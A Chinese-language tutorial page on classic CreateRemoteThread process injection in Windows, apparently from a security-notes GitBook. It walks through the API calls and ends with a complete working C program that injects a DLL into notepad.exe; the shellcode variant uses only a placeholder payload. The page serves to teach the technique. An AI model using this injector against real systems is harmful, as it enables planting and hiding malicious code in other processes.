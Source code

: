 ```yaml
---
description: 经典代码&dll注入
---
```


# CreateRemoteThread

## 远程线程注入

远程线程注入是指一个进程在另一个进程中创建线程的技术，通常用于注入dll或shellcode，两者执行方式会有一些简单的差异但是原理相同，这是一种简单且稳定的经典注入方式，被很多病毒木马所青睐，此外也存在更新式的注入方式。

## 注入流程

1. 打开被注入进程的句柄
2. 通过句柄向被注入进程申请可写可执行空间
3. 往申请的空间内写入必要数据（dllpath&shellcode）
4. 通过windows提供的api创建线程

![](../.gitbook/assets/remote.gif)

## 编程实现

### 0.使用函数原型

```text
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

```text
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

```text
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

```text
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

### 1.打开被注入进程的句柄

```text
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, <pid>);
```

### 2.通过句柄向被注入进程申请可写可执行空间

```text
LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### 3.往申请的空间内写入必要数据（dll&shellcode）

#### 3.1 shellcode

```text
char shellcode[]="XXXXXX";
WriteProcessMemory(hProcess, lpBaseAddress, shellcode, sizeof(shellcode), NULL);
```

#### 3.2 DLL注入

```text
char path[]="c:/test/test.dll";
WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
```

### 4.通过windows提供的api创建线程

#### 4.1 shellcode

```text
CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)lpBaseAddress, 0, 0, 0);
```

#### 4.2 DLL注入

我们都知道在进程载入DLL的时候会调用DLLMAIN函数,同时由于ASLR\(基址随机化\)的缘故，在操作系统启动时，DLL的加载地址不尽相同,但由于部分系统DLL要求在系统启动后必须固定，所以我们通过GetProcAddress函数获取操作系统加载DLL的函数。

也就是说,虽然进程不同但是部分系统dll在不同进程中的地址是相同的，那么我们可以通过获取本地进程的相关函数作为远程线程函数的启动参数,并把申请的空间指向加载DLL保存路径的字符串，就可以远程加载DLL。

* 不同进程的kernel32.dll

![](../.gitbook/assets/image%20%2881%29.png)

![](../.gitbook/assets/image%20%282%29.png)



```text
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
```

![](../.gitbook/assets/image%20%2832%29.png)

## 优化与使用

* 根据进程名查找PID

```text
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
```

* 完整代码

```text
#include <stdio.h>
#include <Windows.h>
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
char path[] = "C:\\Users\\Black Sheep\\source\\repos\\CreateRemoteThread\\x64\\Release\\TestDll.dll";

int main()
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetProcessIdByName((LPCTSTR)"notepad.exe"));
    
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
    return 0;
}

```

* github:[https://github.com/idiotc4t/CreateRemoteThread](https://github.com/idiotc4t/CreateRemoteThread)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/" %}



